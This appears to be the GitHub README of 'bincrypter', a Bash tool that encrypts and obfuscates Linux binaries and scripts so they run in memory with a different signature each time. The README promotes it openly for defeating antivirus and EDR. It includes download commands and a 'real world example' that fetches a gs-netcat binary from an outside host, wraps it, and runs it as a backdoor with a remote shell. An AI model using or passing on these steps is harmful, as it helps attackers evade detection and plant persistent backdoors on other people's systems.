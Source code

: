 
## A Linux Binary Runtime Crypter - in BASH!

- Obfuscate & encrypt any ELF binary
- Obfuscate & encrypt any SHELL-script
- AV/EDR death: Morphing + different signature every time
- 100% in-memory. No temporary files
- Not soiling the filesystem
- Double or triple encrypt the same binary (or itself)
- Resulting binary is heavily obfuscated (`string` only shows garbage)
- Living off the Land (LotL): Only needs `/bin/sh` + `perl` + `openssl`
- Architecture agnostic: Works on x86_64, aarch64, arm6, mips, ...

![exmaple](https://github.com/user-attachments/assets/c8eff8e4-f879-4017-9015-6422e03dd6ac)

Download:
```shell
curl -SsfL https://github.com/hackerschoice/bincrypter/releases/latest/download/bincrypter -o bincrypter
chmod +x bincrypter
```

Example:
```shell
cp /usr/bin/id id
./bincrypter id
# Compressed: 68552 --> 24176 [35%]

./id
# uid=0(root) gid=0(root) groups=0(root)
```

Set a custom PASSWORD (optionally):
```shell
cp /usr/bin/id id
./bincrypter id foobar
# Compressed: 68552 --> 23860 [34%]

./id
# Enter Password: foobar
# uid=0(root) gid=0(root) groups=0(root)
```

Real world example (install a backdoor with a unique signature):
```shell
curl -SsfL "https://gsocket.io/bin/gs-netcat_mini-linux-$(uname -m)" | PASSWORD="foobar" ./bincrypter >gsnc
chmod +x gsnc
PASSWORD="foobar" GS_ARGS="-ilD -s ChangeMe" ./gsnc
```

---
Other great work:  
https://github.com/guitmz/ezuri  
https://github.com/upx/upx  

---
Join the fun: https://thc.org/ops  
bsky: [@hackerschoice.bsky.social](https://bsky.app/profile/hackerschoice.bsky.social)  
Mastodon: [@thc@infosec.exchange](https://infosec.exchange/@thc)




